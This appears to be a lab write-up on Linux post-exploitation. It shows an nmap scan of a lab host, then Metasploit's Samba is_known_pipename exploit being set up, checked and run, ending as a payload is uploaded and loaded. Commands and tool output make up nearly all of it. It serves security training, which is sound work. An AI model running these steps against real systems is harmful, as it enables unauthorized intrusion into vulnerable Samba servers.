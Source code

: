 # Linux post exploitation modules

## Exploit the server 

nmap the network
```
root@attackdefense:~# nmap -sS -sV 192.30.131.3
Starting Nmap 7.70 ( https://nmap.org ) at 2021-05-01 23:26 UTC

root@attackdefense:~# nmap -sS -sV -p- 192.30.131.3
Starting Nmap 7.70 ( https://nmap.org ) at 2021-05-01 23:27 UTC
Nmap scan report for target-1 (192.30.131.3)
Host is up (0.000016s latency).
Not shown: 65533 closed ports
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:42:C0:1E:83:03 (Unknown)
Service Info: Host: VICTIM-1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.18 seconds
```

Scan reveals samba service

Use samba `is_known_pipename` module
```
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS                           yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf5 exploit(linux/samba/is_known_pipename) > set RHOSTS 192.30.131.3
RHOSTS => 192.30.131.3
msf5 exploit(linux/samba/is_known_pipename) > check

[+] 192.30.131.3:445 - Samba version 4.1.17 found with writeable share 'exploitable'
[*] 192.30.131.3:445 - The target appears to be vulnerable.
msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.30.131.3:445 - Using location \\192.30.131.3\exploitable\tmp for the path
[*] 192.30.131.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.30.131.3:445 - Share 'exploitable' has server-side path '/
[*] 192.30.131.3:445 - Uploaded payload to \\192.30.131.3\exploitable\tmp\DfxTQwMJ.so
[*] 192.30.131.3:445 - Loading the payload from server-side path /tmp/DfxTQwMJ.so using \\PIPE\/tmp/DfxTQwMJ.so...
```